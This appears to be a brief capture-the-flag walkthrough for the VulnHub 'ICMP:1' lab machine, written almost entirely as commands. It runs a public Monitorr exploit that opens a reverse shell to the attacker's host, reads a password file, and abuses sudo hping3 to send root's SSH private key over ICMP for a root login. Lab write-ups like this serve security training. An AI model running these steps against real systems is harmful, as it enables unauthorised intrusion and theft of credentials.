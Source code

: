 

# ICMP:1 Walkthrough

**VulnHub Link:** [ICMP:1](https://www.vulnhub.com/entry/icmp-1,633/)
**Difficulty:** Easy  
**Release Date:** 16 Dec 2020

---

## 1. Reconnaissance

### Nmap Scan

nmap -A -O -T4 -P -sV 192.168.100.130


## 2. Web Enumeration

dirb http://192.168.100.100

monitor 1.7.6 exploit found

python 48980.py http://192.168.100.100/mon 192.168.100.14 5555

shell opened and --> cat reminder

user flag captured

cat /devel/crypt.php --> fox password found

## 3. Privilege Escalation

in one terminal session --> sudo hping3 --icmp 127.0.0.1 --sign signature --safe

in another --> sudo hping3 --icmp 127.0.0.1 -d 100 --sign signature --file "/root/.ssh/id_rsa"

and id_rsa copied then get root shell with ssh ---> ssh rot@192.168.100.100 -i id_rsa

root flag captured
